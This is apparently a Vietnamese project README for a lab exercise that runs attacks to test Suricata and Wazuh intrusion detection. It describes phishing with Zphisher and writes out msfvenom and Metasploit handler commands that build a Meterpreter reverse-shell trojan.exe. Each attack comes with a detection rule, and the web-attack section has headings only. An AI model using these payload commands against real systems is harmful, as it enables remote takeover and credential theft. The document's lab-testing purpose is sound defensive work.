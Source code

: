Dưới đây là 1 số kịch bản tấn công để kiểm tra hệ thống giám sát phát hiện xâm nhập có hoạt động hiệu quả  
Các rule được triển khai cho các kịch bản:  
![Rule set](Image/Ruleset.png)  
  
## Kịch bản 1: tấn công Phising
Mục tiêu:  
- Thu thập trái phép thông tin xác thực (username và password) của người dùng.
- Mô phỏng tấn công xã hội nhằm đánh giá khả năng nhận diện các mối đe dọa của người dùng nội bộ.
- Ghi nhận các hành vi đáng ngờ và cảnh báo khi có truy cập đến các miền/phương thức tunneling thường dùng trong phishing.
  
Dùng công cụ Zphiser để tấn công vào máy nạn nhân  
![](Image/KB1_1.png)  
  
Zphiser sẽ tạo trang web giả mạo để dụ nạn nhân điền thông tin quan trọng như username, password  
![](Image/KB1_2.png)  
  
Khi nạn nhân điền xong thông tin thì sẽ được gửi qua máy kẻ tấn công
![](Image/KB1_3.png)  
![](Image/KB1_4.png)  
  
Rule để cảnh báo:  
alert tls any any -> any any (msg:"[HUNTING] Phising detect"; tls_sni; content:"trycloudflare.com"; nocase; classtype:policy-violation; sid:4000002; rev:1;)  
  
Giải thích rule:  
- tls_sni: kiểm tra trường SNI (Server Name Indication) trong TLS handshake  
- content:"trycloudflare.com": phát hiện người dùng đang truy cập vào miền này (thường dùng để ẩn IP thật khi phishing)  
- nocase: không phân biệt chữ hoa/thường  
- classtype:policy-violation: vi phạm chính sách (truy cập tên miền bị cấm)
  
Phía suricata  
![](Image/KB1_5.png)  
  
Phía Wazuh  
![](Image/KB1_6.png)  
  
![](Image/KB1_7.png)  
  
## Kịch bản 2: tấn công truyền mã độc
Mục tiêu:
- Tấn công vào người dùng khi truy cập khởi  động  
- Tạo một ứng dụng uy tín đánh lừa người dùng tải về
  
Tạo payload trojan.exe để lừa người dùng tải xuống:  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.39 LPORT=4444 -f exe > trojan.exe  
msfconsole  
use exploit/multi/handler  
set payload windows/x64/meterpreter/reverse_tcp  
set LHOST 192.168.119.39 ( máy tấn công )  
set LPORT 4444  
exploit  
  
![](Image/KB2_1.png)  
  
![](Image/KB2_2.png)  
  
Mở port 80
![](Image/KB2_3.png)  
  
Máy nạn nhân sẽ truy cập 192.168.119.2:4444/trojan.exe → tự động tải mã độc về 
![](Image/KB2_4.png)  
  
Rule cảnh báo:  
alert http any any -> any any (msg:"[Trojan EXE Download Detected - MZ Header]"; flow: to_client, established; file_data; content:"MZ"; depth:2; classtype:trojan-ac tivity; sid:1002005; rev:1;)  
  
Giải thích rule:  
- file_data: cho phép Suricata kiểm tra nội dung file trong HTTP response  
- content:"MZ": MZ là chữ ký đầu tiên của file .exe (Windows executable)  
- depth:2 : chỉ kiểm tra 2 byte đầu tiên của file  
- flow: to_client: dữ liệu từ server trả về client  
- classtype:trojan-activity: hoạt động phần mềm độc hại
  
Phía suricata  
![](Image/KB2_5.png)  
  
Phía Wazuh
![](Image/KB2_6.png)  
  
## Kịch bản 3: tấn công web
Mục tiêu:
- Truy cập trái phép vào thông tin nội bộ  
- Thực hiện các hành vi khai thác lỗ hổng bảo mật ứng dụng web
- Kiểm tra mức độ phòng thủ và phát hiện của hệ thống giám sát
  
### SQL injection

### XSS (Reflected, Restored)

### Brute Force
